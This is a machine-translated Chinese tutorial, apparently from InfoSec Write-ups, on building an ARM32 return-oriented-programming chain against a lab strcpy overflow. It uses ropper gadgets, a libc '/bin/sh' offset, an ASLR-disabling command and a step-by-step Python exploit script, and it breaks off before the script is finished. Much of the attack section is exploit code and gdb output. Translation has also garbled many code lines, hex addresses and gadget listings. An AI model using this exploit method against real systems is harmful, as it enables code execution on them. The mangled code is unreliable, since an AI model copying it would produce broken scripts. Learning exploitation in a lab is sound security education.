# 臂上的 ROP 链

> 原文：<https://infosecwriteups.com/rop-chains-on-arm-3f087a95381e?source=collection_archive---------0----------------------->

你好，

这是我第一次写关于媒体的文章，而且会很长。我们将了解 Arm32 中的 ROP 链。写这个有两个原因。

1.  与 x86 相比，ARM ROP 链上的资源更少(当然也有一些令人敬畏的文章，如 azerialabs.com)
2.  我见过有人做 rop，但似乎并不理解它，而且他们也不知道如何为 rop 链找到这样的小工具。例如，如果他们正在使用某篇文章中的某个特定 libc 版本的小工具，而当他们遇到具有不同 libc 版本的二进制文件时，他们正在使用的其他人的文章中的小工具可能不存在。因此，在这些情况下，应该知道如何找到某些小工具进行链接。

第二个是我写这篇文章的主要原因。这篇文章的关键在于，不管 libc 版本如何，人们都应该能够找到他们的小工具。我觉得这越来越无聊了，所以介绍够了，让我们开始吧

哦…等等，我忘了 ROP 的介绍部分

# ROP 简介

那么基本上什么是 rop 链？

顾名思义，面向 Rop 或 Return 的编程只是将一些指令链接起来以完成特定的动作。那么我们为什么要做 rop 呢？嗯嗯…

众所周知，当编译我们的二进制文件时，它有一些保护机制来防止某些攻击，比如缓冲区溢出。这些保护机制包括 NX/DEP、堆栈金丝雀等。在这篇文章中，我将只讨论 NX。

NX/DEP =不执行..就这样

NX 的想法是让我们的栈**不可执行**。当我们进行缓冲区溢出时，我们会溢出堆栈，并将 shell 代码放入堆栈中，这样我们就可以执行它来获得一个 shell 或其他东西。但是当栈变得不可执行时会发生什么呢？？正如你可能猜到的，我们的外壳代码不会运行，因此，我们的利用将失败。这就是 ROP 发挥作用的地方

所以基本上在 ROP 的帮助下，我们可以链接指令来做一些事情，而不需要使我们的堆栈可执行。所以下一个问题是我们应该链接什么指令，以及在哪里寻找它。

## 寻找小工具

那么这些小玩意到底是什么呢？

它们只是帮助我们制作 rop 链的汇编指令。除了实际的代码之外，在我们的二进制文件中还有很多有用的指令。另一个要寻找的地方是我们的 libc 二进制文件，如你所知，当我们加载一个特定的二进制文件时，libc 库将被动态地加载到内存中。函数和指令与我们的二进制文件链接，如果它是动态链接的(默认情况下)，就压缩二进制文件的大小。由于在不同的操作系统中使用这些库的不同版本，在一个库中看到的相同的小工具在另一个库中将不可用。

现在我们知道，我们还可以在 libc 库中查找小工具。所以接下来的问题就是如何寻找这些小玩意。

为此，我们将使用一个名为 ropper 的工具。在**仿真 pi** 中安装 ropper 可能不是一个好主意，因为它非常慢，所以最好在主机中安装 ropper。使用下面的命令安装 ropper。

*sudo pip 安装 ropper*



因为我已经 ropper 它说它已经满意了。接下来的事情是使用 ropper。ropper 非常容易使用。只需输入 ropper 来运行 ropper

> 用户@ Ubuntu:~ $ ropper
> (ropper)>

现在我们在 ropper 界面中。所以要使用 file 命令加载文件

所以我把二进制的 crackme 加载到 ropper 中。现在，我们可以使用 search 命令搜索小工具。

*搜索/ <深度> / <小工具> //这应该是搜索小工具*的方式

例如，如果我想加载二进制文件中的所有小工具，我可以简单地输入" *gadgets* "

> (crackme#1/ELF/ARM)>小工具
> 
> 小工具
> ======
> 
> 0x000105b0:add r4,r4,#1;ldr r3,[r5,#4]!；mov r0,r7;MOV R1, R8mov r2, sb;BLX R3 ?
> 0x0001030c: andoq r0, r0, r6, lsl r5;其中,安卓 r0,r2,r0,ror R7;andesq r0, r0, r6, lsl r6;push {r3, lr};bl#0x3c8;pop {r3,pc};
> 0x00010314: andoq r0, r0, r6, lsl r6;push {r3, lr};bl#0x3c8;pop {r3,pc};0x000105d4: ansq r0, r1, ip, asr #1andesq r0, r1, r4, asr #1bx lr;0x000105d4: ansq r0, r1, ip, asr #1andesq r0, r1, r4, asr #1bx lr;push {r3, lr};pop {r3,pc};0x000105d8: ansq r0, r1, r4, asr #1bx lr;
> 0x000105d8: ansq r0, r1, r4, asr #1;bx lr;push {r3, lr};pop {r3,pc};
> 0x00010310: andoq r0, r2, r0, ror r7;andesq r0, r0, r6, lsl r6;push {r3, lr};bl#0x3c8;pop {r3,pc};0x00010430: asrs r1, r1, #1;bxeq lr;ldr r3,[pc,#0x10];cmp r3,#0;bxeq lr;bx r3 ?0x00010494:b #0x41c;ldr r3,[pc,#0x10];cmp r3,#0;beq #0x490;BLX R3 ?0x000104a0:beq #0x490;BLX R3 ?0x0001031c:bl #0x3c8;pop {r3,pc};0x00010468:bl #0x3ecmov r3,#1;strb r3,[r4];pop {r4,pc};
> 0x000104a4:blx r30x000105cc: bne #0x5b0;pop {r3, r4, r5, r6, r7, r8, sb, pc};andesq r0, r1, ip, asr #1;andesq r0, r1, r4, asr #1bx lr;
> 0x000105dc: bx lr
> 0x000105dc: bx lr;push {r3, lr};pop {r3,pc};
> 0x0001040c:bx r30x00010408: bxeq lr;bx r3 ?0x00010434: bxeq lr;ldr r3,[pc,#0x10];cmp r3,#0;bxeq lr;bx r3 ?0x000103fc: bxls lr;ldr r3,[pc,#0x10];cmp r3,#0;bxeq lr;bx r3 ?0x0001049c:cmp r3,#0;beq #0x490;BLX R3 ?0x00010404:cmp r3,#0;bxeq lr;bx r3 ?0x00010460:cmp r3,#0;popne {r4,pc};bl #0x3ec;mov r3,#1;strb r3,[r4];pop {r4,pc};0x000103f8:cmp r3,#6;bxls lr;ldr r3,[pc,#0x10];cmp r3,#0;bxeq lr;bx r3 ?
> 0x000105c8:cmp r4,r6bne #0x5b0;pop {r3, r4, r5, r6, r7, r8, sb, pc};andesq r0, r1, ip, asr #1;andesq r0, r1, r4, asr #1bx lr;0x00010498:ldr r3,[pc,#0x10]cmp r3,#0;beq #0x490;BLX R3 ?0x00010400:ldr r3,[pc,#0x10]cmp r3,#0;bxeq lr;bx r3 ?0x000105b4:ldr r3,[r5,#4]!；mov r0,r7;MOV R1, R8mov r2, sb;BLX R3 ?0x000105b8:mov r0,r7MOV R1, R8mov r2, sb;BLX R3 ?
> 0x000105bc:mov r1,r8mov r2, sb;BLX R3 ?
> 0x000105c0: mov r2, sb;BLX R3 ?
> 0x0001046c:mov r3,#1;strb r3,[r4];pop {r4,pc};0x00010490: pop {r3, lr};b#0x41c;ldr r3,[pc,#0x10];cmp r3,#0;beq #0x490;BLX R3 ?0x00010320: pop {r3, pc};0x000105d0: pop {r3, r4, r5, r6, r7, r8, sb, pc};andesq r0, r1, ip, asr #1;andesq r0, r1, r4, asr #1bx lr;0x000105d0: pop {r3, r4, r5, r6, r7, r8, sb, pc};andesq r0, r1, ip, asr #1;andesq r0, r1, r4, asr #1bx lr;push {r3, lr};pop {r3,pc};0x00010474: pop {r4, pc};0x00010464: popne {r4, pc};bl #0x3ec;mov r3,#1;strb r3,[r4];pop {r4,pc};0x00010318: push {r3, lr};bl#0x3c8;pop {r3,pc};0x000105e0: push {r3, lr};pop {r3,pc};0x00010470: strb r3, [r4]pop {r4,pc};
> 
> 发现 42 个小工具
> (crackme#1/ELF/ARM) >

如你所见，它打印出了二进制文件中的所有小工具。现在搜索，如上所述你可以使用"*搜索/ <深度> / <小工具>* "

> (crack me # 1/ELF/ARM)> search/1/pop
> [INFO]搜索小工具:pop
> 
> 【信息】文件:crackme#1
> 0x00010320: pop {r3，PC }；
> 0x00010474: pop {r4，PC }；
> 
> (crackme#1/ELF/ARM)>搜索 pop
> [INFO]搜索小工具:pop
> 
> [INFO]File:crack me # 1
> 0x 00010490:pop { R3，lr }；b # 0x41cldr r3，[pc，# 0x 10]；cmp r3，# 0；beq # 0x490blx r3
> 0x00010320: pop {r3，PC }；
> 0x000105d0: pop {r3，r4，r5，r6，r7，r8，sb，PC }；andeq r0，r1，ip，ASR # 1；和 q r0，r1，r4，ASR # 1；bx lr
> 0x000105d0: pop {r3，r4，r5，r6，r7，r8，sb，PC }；andeq r0，r1，ip，ASR # 1；和 q r0，r1，r4，ASR # 1；bx lr 推{r3，lr }；pop {r3，PC }；
> 0x00010474: pop {r4，PC }；
> 0x00010464: popne {r4，PC }；bl # 0x3ecmov r3，# 1；strb r3，[R4]；pop {r4，PC }；
> 
> (crackme#1/ELF/ARM)>

现在看看用法，我将深度指定为 1，将小工具指定为 pop，因此它显示的指令有 pop。

看看第一名和第二名之间的输出差异。在第一种情况下，我指定了深度，所以它只显示具有 pop 的指令，但是在第二种情况下，我没有指定任何深度，所以它显示具有其他具有 pop 指令的元素。记住这一点，让我们进入下一阶段

## 要找什么小工具

有很多小工具，所以我们应该减少小工具，选择对我们有用的。哦，等等，这里的目的是什么？？？

别忘了我们链接这些小工具是为了做一些事情。那么我们的目标是什么？正如我所说的，我们可以用我们想要的方式把它们连接起来，然后完成一些事情。

在缓冲区溢出中，我们主要执行外壳代码，以便获得反向连接或外壳来提升权限。所以想一想，如果我们把这些小工具或者指令以一种给我们外壳的方式连接起来会怎么样？听起来很有趣，对吗？这正是我们要做的。

那么什么函数会对此有帮助呢？？任何想法… **请看“系统功能”。**系统函数是通过调用 **/bin/sh 来执行命令的函数。**我们现在可以查看系统功能的手册页。

*欲了解更多关于系统、功能的信息*点击[此处](https://linux.die.net/man/3/system)



我不想在这里解释不必要的东西，所以长话短说，系统函数将其参数作为命令，执行它，并返回输出，所以我们可以尝试使用下面的简单 c 代码。

> #包括<stdlib.h></stdlib.h>
> 
> int main(){
> 
> 系统(“ls”)；
> 
> }

这将执行“ls”命令

因此，您可以在这里执行命令并列出文件。那么如果我们把 **/bin/sh** 作为参数传递会发生什么…让我们看看

不出所料，我们得到了一个弹壳

所以结论是我们可以调用系统函数，并通过传递“/bin/sh”作为参数来获得一个 shell。现在让我们继续手臂的事情

## **调用 ARM 中的系统函数**

在 ARM 中，函数的参数通过寄存器和堆栈传递。前四个参数通过 **r0 传递到 r3** ，后面的参数通过**堆栈**

在我们的例子中，系统函数将一个参数作为要执行的命令。因此，要获得一个 shell，我们需要将字符串“/bin/sh”作为第一个参数传递到寄存器 r0 中，之后，我们应该调用系统函数。现在我们都准备好用 ropper 寻找小工具了。

## 寻找合适的小工具

这是本文最相关的部分，我希望您能够找到自己的小工具，而不用考虑 libc 版本。

首先，如你所知，我们需要调用系统函数，将“/bin/sh”字符串作为 r0 寄存器中的参数(第一个参数)。我们唯一能控制的是堆栈，我们不能直接把数据放入 r0 寄存器。因此，我们的目标是找到一个小工具，将堆栈中特定位置的数据放入 r0 寄存器，我们还需要重新获得对 pc 的控制，以便我们可以调用系统函数来获取 shell…有什么想法吗？？？？

有两个常见的 arm 指令可以帮助您实现这一点。他们是

1.  弹出指令
2.  加载指令

弹出指令将数据从堆栈弹出到寄存器。所以我们可以把堆栈中的值弹出到 r0 寄存器中，对吗？。类似地，如果你看一下 load 指令，它可以将值从堆栈加载到寄存器。因此，我们可以使用 ropper 来查找将值从堆栈放入 r0 寄存器的 pop / load 指令，并寻找将控制权交还给我们的小工具，以便我们可以调用系统函数(像 pop {pc}这样的小工具)。我们将在我们的图书馆中寻找这些小工具。我用的是 azeria 实验室的 ubuntu 16.04，它模仿了 raspi。arm 版本是 Arm 6I ( [link](https://azeria-labs.com/arm-lab-vm/) )。

顺便说一下，你也可以使用其他 pop，比如弹出 r3 或 r4 等，并使用 mov 小工具将该值复制到 r0，但我想让 rop 链更加简单和干净。如果你有简单的小工具，你应该总是考虑使用它。例如，如果您有一个直接弹出到 r0 (pop {r3，r0})的小工具和另一个弹出到 r4 和 r5 的小工具。毫无疑问，你应该使用第一个，为什么？？因为更简单干净。如果您使用第二个(pop {r4，r5})，您还需要找到另一个 mov 小工具来将数据从 r4 或 r5 复制到 r0，如果您在一个小工具中得到您想要的东西，为什么还要麻烦地链接两个小工具呢？我是说为什么？？？

首先，您需要将 libc 库从模拟 pi 复制到主机。如果在仿真 pi 中使用 ropper，将会花费很多时间。

如果你想看到库被加载。您可以将二进制文件加载到 gdb 中，并在您喜欢的任何地方放置一个断点，一旦命中，使用“vmmap”命令查看二进制文件的映射对象。所以位置是'/lib/arm-Linux-gnueabihf/libc-2.19 . so '。

请注意，这只有在二进制文件被动态链接时才能看到。

所以你可以从/lib/arm-Linux-gnueabihf/libc-2.19 . so 中复制这个库。我刚刚用 bashupload.com 上传了这个，然后用 curl 把它下载回主机。

现在，使用 file 命令将 libc 加载到 ropper 中



现在我们需要找到将数据从堆栈弹出到 r0 寄存器的小工具，这样我们就可以搜索它了

> 搜索/1/弹出

幸运的是，我们有两个小工具可以从堆栈中弹出数据到 r0 寄存器。如果你看第一个，它比第二个有更多的弹出数据，并以 bx ip 结束。所以考虑第二个会更好为什么？我们不想处理许多复杂的分支，如 bx ip，我们也没有得到控制，它以“bx ip”结束。我们应该总是考虑简洁和简单的小工具。如果我们看第二个，它并不复杂，没有任何其他指令。它从堆栈中弹出三个值到 r0，r4，pc，所以我们有机会把我们的输入数据放入 r0(第一个参数) 它还将第三个值弹出到 pc，这将帮助我们将控制返回到用户输入。如果您设法在第三次弹出时将系统函数的地址放入 pc，则利用就完成了，我们将获得外壳，就这么简单。 所以最好选择第二个弹出指令(用红色标记突出显示)。

这一个小工具就足以利用这个漏洞。但是我们不会就此罢休的..(我猜这不是畏缩)。

正如我所说，这篇文章的关键是帮助你找到你的小工具，所以让我们继续下一个小工具*加载*。我们现在将搜索“ldr”。



我们需要从这个输出中挑选出有用的小工具，所以我们需要一些小工具将数据从数据("/bin/sh ")加载到 r0 寄存器

正如您在这里看到的，它将堆栈[sp，#0x18]中的数据载入 r0 寄存器，然后是一些 pop。在最后一次 pop 中，我们得到了控制权，同样，如果您将“/bin/sh”字符串的地址放入 r0，并在最后一次 pop 中调用系统函数(pop {r3，r4，r5，r6，r7，pc})，我们将得到一个 shell。

如果是比较少的小工具，你可以搜索没有深度的小工具，挑出有用的。因此，让我们使用“搜索 ldr”来完成

**注意:总是能找到一些小玩意，把电脑的控制权还给我们**

> 0x000ac2c8: ldr r0，[sp，# 4]；添加 sp，sp，# 0xcpop {r4，r5，PC }；
> 0x00106088: ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r4，PC }；
> 0x0001aa08: ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r4，r5，r6，PC }；
> 0x00031874: ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r7，PC }；
> 
> 0x000ec73c: ldr r0，[sp，# 0x 10]；添加 sp，sp，# 0x20pop {r4，r5，r7，PC }；
> 0x00100f78: ldr r0，[sp，# 0x 18]；pop {r3，r4，r5，r6，r7，PC }；

这些都是有用的小工具，但为了保持我们的利用时间短，使用小工具的持久性有机污染物最少，所以我将使用

0x00031874: *ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r7，PC }；*

因此，将您想要使用的小工具的偏移量复制到某个文本编辑器中(我的是:0x00031874)。你也可以使用上面的任何一个小工具，它们都应该工作正常。它们都可以将数据从堆栈加载到 r0 寄存器，这是我们作为命令提供给系统函数的第一个参数，它们还可以将 pc 的控制权交还给系统函数调用方。

现在进入我们的下一阶段

## 获取“/bin/sh”字符串的地址

我们需要将“/bin/sh”的地址作为参数传递给 r0 寄存器，这样当系统函数被调用时，我们将得到一个 shell。幸运的是，字符串“/bin/sh”已经存在于我们的 libc 库中。如果字符串不存在，您应该提供字符串作为输入，并将包含字符串“/bin/sh”的输入位置的地址放入 r0 寄存器。现在让我们在 libc 中找到字符串“/bin/sh”的地址。为此，我们可以使用字符串命令。

> user @ Ubuntu:~/course _ lab $ strings—help
> 用法:strings[options(s)][file(s)]
> 在[file(s)]中显示可打印的字符串(默认为 stdin)
> 选项有:
> -a—-全部扫描整个文件，而不仅仅是数据段【默认】
> -d — data 仅扫描文件中的数据段
> -f — print-file-name 在每个字符串前打印文件名
> -n — bytes=[number] Locate
> -T-radix = { o，d，x}打印以 8、10 或 16 为基数的字符串的位置
> -w-Include-all-white 将所有空格作为有效字符串字符包含在内
> -o-radix = o
> -T-target =<bfd name>指定二进制文件格式
> -e-encoding = { S，S，B，L，B，L}选择字符大小和字节序:
> S = 7-7
> @<file>Read options from<file>
> -h-help 显示此信息
> -V-V-version 打印程序的版本号
> 字符串:支持的目标:elf 64-x86–64 elf 32-i386 elf 32-iam Cu elf 32-x86–64 a . out-i386-Linux Pei-i386 Pei-x86–64 elf 64-l1om elf 64-k1om elf 64

我们应该使用-t，-a 来获取驻留在库中的字符串的适当偏移量。-t 用于以十六进制打印偏移量，以及-a 扫描整个库

> -t radix={o，d，x}打印以 8、10 或 16 为基数的字符串的位置
> 
> -a : all 扫描整个文件，而不仅仅是数据部分[默认值]

> strings-t x-a libc _ 2.19 . so | grep "/bin/sh "

哇，我们得到了字符串“/bin/sh”的偏移量。其 0x11db20(十六进制)。现在唯一要做的就是策划我们的利用。

## 最后的利用

我将使用我易受攻击的二进制([链接](http://bashupload.com/3AVVf/bof))。我希望你们知道如何利用简单的缓冲区溢出。在这个二进制文件中，pc 将在第 36 个偏移量处被覆盖。

因此，在第 36 个位置，我们应该提供我们的小工具的地址，我重复地址小工具，而不是偏移量。要找到实际的地址，你只需要把偏移量加到 libc 基址上就行了。每次加载时，libc 的基址都会不同，所以我们应该关闭 ALSR。在 ubuntu 中，您可以通过下面的命令关闭 alsr

> sudo echo 0 | tee/proc/sys/kernel/randomize _ va _ space

这样做之后，我们需要得到系统函数的地址和 libc 的基地址，所以使用 gef 将二进制文件加载到 gdb i m 中，并使用 b 命令在任何你想要的地方放置一个断点。

> pi @ raspberrypi:~/ASM/BOF $ gdb BOF
> GNU gdb(Raspbian 7 . 7 . 1+dfsg-5+rpi 1)7 . 7 . 1
> 版权所有 2014 自由软件基金会，Inc.
> 许可 GPLv3+: GNU GPL 版本 3 或更高版本<[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
> 这是自由软件:你可以自由更改和重新发布它。
> 在法律允许的范围内，不提供任何担保。键入“显示复印”
> 和“显示保修”了解详情。
> 这个 GDB 被配置为“arm-linux-gnueabihf”。
> 输入“显示配置”了解配置详情。
> 关于 bug 报告的说明，请参见:
> <[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>。
> 在
> <[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>找到 GDB 手册和其他在线文档资源。如需帮助，请键入“help”。
> 键入“apropos word”以搜索与“word”相关的命令……
> [*]无调试会话活动
> GEF for linux 就绪，键入“GEF”以启动，键入“gef config”以配置
> 56 个使用 Python 引擎 2.7 为 GDB 7.7.1 加载的命令
> [*] 4 个命令无法加载，运行“gef missing”以了解原因。
> 从 bof 读取符号……(没有找到调试符号)……完成。
> GEF>b main
> 0x 1048 c 处的断点 1
> GEF>

正如您在这里看到的，我在 main 中放置了一个断点，现在使用 r 命令运行二进制文件。它一运行就会在 main 中遇到断点。现在使用 print 命令获取系统函数的地址

> 打印和系统

所以系统函数的地址是 0xb6eadfac

接下来我们需要 libc 基地址，所以使用 vmmap 命令显示目标进程的整个内存空间映射。

> 虚拟地图



库的基址是“Start”下第一个映射的地址

所以 libc 的基址是‘0xb6e 74000’(用黄色突出显示)

我们得到了两个地址，所以将它们复制到文本编辑器或其他地方。

所以一切都搞定了。现在我们可以开始写我们的利用。在我的二进制文件中，pc 将在第 36 个位置被覆盖。如您所知，当我们利用一个简单的缓冲区溢出时，我们将精心设计利用方式，我们的外壳代码的起始地址将覆盖 pc，以便执行重定向到该特定位置并执行我们的外壳代码。但是在我们的 rop 中，我们不会指向堆栈中的某个地方，而是以一种我们的小工具的地址会覆盖 pc 的方式来制造漏洞。这里发生的事情是，执行将被重定向到我们提供的小工具/指令的地址，它将在该地址执行该指令

让我们创建一个 python 脚本，你可以使用自己的语言。

> 纳米 rop.py

用垃圾字符填充缓冲区，直到它覆盖 pc。所以我会在这里写 36 个“A”

> #!/usr/bin/python
> 
> junk = "A" * 36

您输入的下一个字符将覆盖 pc。这是我们的奇迹发生了

下一个输入应该是小工具的地址

> 0x00031874: ldr r0，[sp，# 4]；加 sp，sp，# 8；pop {r7，PC }；

要获得实际地址，需要将这个偏移量加到 libc 基址上，因此实际地址是

0x00031874 + libc 地址= 0x 00031874+0xb6e 74000 = 0x b6ea 5874

您可以使用计算器来检查这一点，我们不需要每次都使用 python 中的 struct 模块来手动计算这一点

> #!/usr/bin/python
> 导入结构
> 
> base = 0xb6e74000
> 
> junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x00031874)

我用 libc 基址创建了一个变量“base”。还有一个名为 gadget one 的变量，它保存小工具的实际地址。struct.pack 中的第一个参数是"

*Now take a look at the gadget*

> *ldr r0, [sp, #4]; add sp, sp, #8; pop {r7, pc};*

*Its loading from sp+4 to r0 and adding 8 to the sp .After that its popping out two values from the top of the stack into r7 and pc.Lets see this in gdb .Before that add the print function in the script to output the exploit so that we can provide it to the program*

> *#!/usr/bin/python
> import struct*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x00031874)*
> 
> *印刷品(垃圾+小配件 1)*

*现在运行这个脚本来查看输出*

> *pi @ raspberrypi:~/ASM/challenges $ python ROP . py
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaatx
> pi @ raspberrypi:~/ASM/challenges $*

*很好…我猜一切都很好..所以启动 gdb 并再次加载二进制文件*

> *pi @ raspberrypi:~/ASM/challenges $ gdb。/BOF
> GNU gdb(Raspbian 7 . 7 . 1+dfsg-5+rpi 1)7 . 7 . 1
> Copyright 2014 Free Software Foundation，Inc .
> License GPLv3+:GNU GPL version 3 或更高版本<[http://gnu.org/licenses/gpl.html](http://gnu.org/licenses/gpl.html)>
> 这是自由软件:你可以自由更改和重新分发它。
> 在法律允许的范围内，不提供任何担保。键入“显示复印”
> 和“显示保修”了解详情。
> 这个 GDB 配置为“arm-linux-gnueabihf”。
> 输入“显示配置”了解配置详情。
> 关于 bug 报告的说明，请参见:
> <[http://www.gnu.org/software/gdb/bugs/](http://www.gnu.org/software/gdb/bugs/)>。
> 在
> <[http://www.gnu.org/software/gdb/documentation/](http://www.gnu.org/software/gdb/documentation/)>找到 GDB 手册和其他在线文档资源。如需帮助，请键入“help”。
> 键入“apropos word”以搜索与“word”相关的命令……
> [*]无调试会话活动
> GEF for linux 就绪，键入“GEF”以启动，键入“gef config”以配置
> 56 个使用 Python 引擎 2.7 为 GDB 7.7.1 加载的命令
> [*] 4 个命令无法加载，运行“gef missing”以了解原因。从…读取符号。/bof…(找不到调试符号)…完成。
> 全球环境基金>*

*在我的二进制文件中有一个叫 bof 的函数，它使用 strcpy，这是源代码*

> *# include <stdlib.h># include<unistd . h>
> # include<stdio . h>
> # include<string . h></stdlib.h>*
> 
> *void BOF(char * IP)
> {
> char buffer[30]；
> strcpy(缓冲区，IP)；
> printf("你的输出是%s \n "，buffer)；
> }*
> 
> *int main(int argc，char * * argv)
> {
> 
> BOF(argv[1])；*
> 
> *}*

*所以反汇编 bof 函数，在最后一次 pop{r11，pc}放一个断点*

**

*现在用 r 命令运行二进制文件，并将 python 脚本输出作为命令行输入提供给程序，您可以这样做*

> *gef> r $(python rop.py)*

*按 enter 将运行程序，将 python 脚本的输出作为输入，并点击断点*

**

*这个弹出将从栈顶弹出两个值到 r11 和 pc。第一个值 0x 41414141(“AAAA”)将被弹出到 r11，下一个值(我们的小工具的地址)将被弹出到 pc。正如你在这里看到的，它指向我们的小工具“ldr r0，[sp，#4]”。如果你做了一步以上的指示，电脑将指向我们的小工具。*

**

*好了…现在它将 sp+4 中的值加载到 r0 寄存器中。sp+4 是堆栈顶部的第二个值。*

> *sp = 0xbefff210*
> 
> *sp+4 = 0x beff 214*

*现在 sp+4 保存值 2，所以如果我们做一个 si，r0 将变成 2*

**

*但我们要做的是将字符串“/bin/sh”的地址加载到 r0。为此，我们需要在漏洞中提供字符串的地址。类似地，我们必须将偏移量添加到基地址中*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x11db20) #/bin/sh string*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱)*

*所以这是修改后的漏洞利用…你们可能想知道为什么有一个“AAAA”的 junk1。再看一下这个小工具，它从 sp+4 加载值，对吗？因此，如果 a 在 gadget1 之后提供值，它将位于堆栈的顶部，即 sp 中。但是在我们的例子中，我们需要 sp+4 中的值，因为我们的小工具只将 sp+4 中的值加载到 r0。*

**

*我希望你得到这个:P*

*再次将二进制文件加载到 gdb 中，并在 bof 函数的最后一个 pop{r11，pc}处放置一个断点，然后使用我们的漏洞运行它。*

**

*哎呀，出了点问题…如果你看 sp+4，它的值是 0，但是我们提供了字符串的地址，对吗？？然后发生了什么？？*

*看看你提供的字符串的地址。现在让我们手动计算这个小工具的实际地址..*

> *实际地址= libc 的基址+字符串的偏移量*
> 
> *= 0xb6e 74000+0x 11 db 20 = 0 xb6f 91 b 20*

*没什么奇怪的，对吧？实际上不是，如果你看地址，末尾有一个 x20，这实际上是一个十六进制 ascii 值，表示退格。如果你谷歌一下，你可以看到这个*

> ***空格字符**，表示单词之间的空格，由键盘的空格键产生，由代码 0x20(十六进制)表示，被认为是非打印图形(或不可见图形)而不是控制字符。*

*这个地址没有出现在我们的堆栈中的原因就在于此。我们程序中易受攻击的函数是 strcpy。当它遇到一个空格时终止。如你所知，寻址将采用小端格式，因此 x20 将首先进入堆栈，结果复制终止。这就是我们在堆栈中看到 00000000 的原因
下一个问题是如何解决这个问题？？？？？？*

*x20 打破了复制权？那么，如果 a 提供了一个没有这个 x20 的地址，并将该地址重新调整回原来的地址，使其指向我们的小工具，那又会怎样呢？听起来很困惑？？*

*实际上很容易。所以你要做的第一件事就是提供一个没有 x20 的地址，并且离我们的小工具很近。例如，我们将地址设置为 0xB6F91B21(原始地址= 0xB6F91B20)，这样它就没有 x20。但同时，我们需要将这个地址重新调整回 0xB6F91B20，以便它指向我们的字符串并将“/bin/sh”加载到 r0 寄存器。要在 r0 中获得地址 0xB6F91B20，首先我们需要提供不包含 x20 的假地址，然后我们可以使用 rop 将地址重新调整回 0xB6F91B20。您可能会想，如果地址回到 0xB6F91B20，会不会将 r0 寄存器清零？不，寄存器可以保存任何值，这就是我们修改寄存器的原因。当堆栈中出现 x20 时，只有 strcpy 终止复制。为此，我们可以再次使用我们的 rop 工具..*

*这一次你应该寻找重新调整地址的小工具。你可以寻找 add 或 sub 指令来做这件事。我们应该挑选出将 r0 中的值加或减回指向“/bin/sh”的地址的小工具，并给予我们对 pc 的控制，这是非常重要的，因为这是我们可以控制执行的唯一方式，以便在这之后我们可以执行系统功能。*

*让我们再次启动 ropper 并加载 libc。寻找修改 r0 并交还 pc 控制权的添加或子小工具。我将寻找添加小工具*

**

> *0x000fe950:加 r0，r0，# 0x90pop {r3，PC }；
> 0x000fe990:加 r0，r0，# 0x94pop {r3，PC }；*
> 
> *0x000fe910:加 r0，r0，# 0x80pop {r3，PC }；*

*这三个小工具符合我们上面提到的条件，将会为我们完成工作。你可以从上面的小工具中选择任何一个，我更喜欢这个。*

> *0x000fe910:加 r0，r0，# 0x80pop {r3，PC }；*

*因此，这会将 0x80 加到 r0 上，并弹出 r3 和 pc。接下来我们要做的是修改漏洞，将“/bin/sh”字符串的地址更改为 0x B6 f 91 b 2–0x80，这样我们就可以使用这个小工具添加 0x 80，并将 r0 中的值改回指向“/bin/sh”字符串的地址。之后还有 2 个 pop 会 pop r3 和 pc。我们可以把任何垃圾值放在 r3 和 pc 上的系统地址里。所以让我们开始吧*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱)*

*现在，如果您运行 gdb 并检查“ldr r0，[sp，#4]”，我们可以看到 0x b 6 f 91 b 20–0x 80，ie = 0xb6f91aa0*

**

*如果我们执行 si，sp+4 = 0xb6f91aa0 的值将载入 r0。*

**

*因此，第一步完成后，这是一个加法指令，增加 8 到 sp。*

*下一步是将我们下一个添加小工具的地址放入 pc，我们有 pop 指令。因此 pop {r7，pc }将从堆栈顶部向 r7 和 pc 弹出两个值。让我们修改我们的漏洞，以指向下一个小工具*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string
> junk 2 = " AAAA "
> gadget 2 = struct . pack("<I "，base+0x 00 fe910)#添加小工具*
> 
> *印刷品(垃圾+小配件 1+垃圾 1+垃圾箱+垃圾 2+小配件 2)*

*在 binsh 之后，我们提供了另一个 junk2，它将一个垃圾值“AAAA”弹出到 r7，下一个值是我们的 add 小工具的地址，它将弹出到 pc，然后 pc 将指向 add 小工具，add 小工具将 pc 中的值重新调整为 0xB6F91B20，它指向我们的“/bin/sh”字符串。让我们看看这个*

*现在一切都准备好了，剩下唯一要做的就是调用系统函数来获取我们的 shell。*

**

*该弹出操作将堆栈中的两个值弹出到 r3 和 pc 中。像往常一样，我们将插入一些垃圾值到 r3，并将系统的地址放入 pc。让我们做最后一次。我希望你复制了系统函数的地址:p*

> *#!/usr/bin/python
> 导入结构*
> 
> *base = 0xb6e74000*
> 
> *junk = " A " * 36
> gadget 1 = struct . pack("<I "，base+0x 00031874)# ldr gadget
> junk 1 = " AAAA "
> binsh = struct . pack("<I "，base+0x 11 db 20–0x 80)#/bin/sh string
> junk 2 = " AAAA "
> gadget 2 = struct . pack("<I "，base+0x 00 Fe 910)# add gadget【小工具*
> 
